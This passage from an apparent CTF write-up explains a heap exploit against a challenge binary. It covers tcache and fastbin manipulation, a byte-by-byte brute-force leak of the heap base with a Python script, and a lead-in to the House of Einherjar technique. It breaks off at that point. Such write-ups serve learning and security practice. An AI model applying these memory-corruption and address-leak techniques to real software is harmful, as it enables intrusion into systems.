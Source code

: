The first part will basiclly allocate 7 chunks, which then will fill up the tcache (their fd is mangled, and I prefer to leak fastbin's metadata)

then we add another msg, and then free them all. then we allocate `chunk_a`, which its username will be takes from the 0x80 fastbin. 

This is how it looks like in gdb:

![image](https://github.com/itaybel/Weekly-CTF/assets/56035342/18531f9b-acd4-47cc-8529-88ddbae57370)

It will write the name we gave it + a nullbyte. The other metadata is still there.

Now, we can use the `edit_message` function, to bruteforce byte-byte the 2 next bytes! we can start by supplying a `name = \x61\x00\x01`, and if the next byte is 0x01, it will let us edit, if it doesn't , we'll try `name = \x61\x00\x02`, until we can edit. 

We do it twice, and this will leak us the third and fourth bytes of the heap. The heap will always contain 3/4 bytes (PIE is not enabled in our case), and we know that the base address will always start with 000.

This means we would need to bruteforce 1 nibble, but thats fine, because it has success rates of 1/16.

here is my brute force:

```py
    for i in range(7):
        add_msg()

    add_msg()
    send_all()

    chunk_a = add_msg("a", "a")
    third_byte = ""
    for i in range(256):
        if edit_msg("a\x00"+ chr(i), "a") == True and i != 10:
            third_byte = i
            break

    print("third byte is", third_byte)
    fourth_byte = ""
    for i in range(256):
        if edit_msg("a\x00" + chr(third_byte) + chr(i), "a") == True and i != 10:
            fourth_byte = i
            break
    print("third byte is", fourth_byte)

    heap_base = (fourth_byte << 24) + (third_byte << 16) + (0x50 << 8) #we guassed that the unknows nibble is 0x5
            
    print("heap base", hex(heap_base))
```

Now, we are ready to exploit the house of einherjar!

So lets say we have an overlapping chunks. what would we want to overwrite?
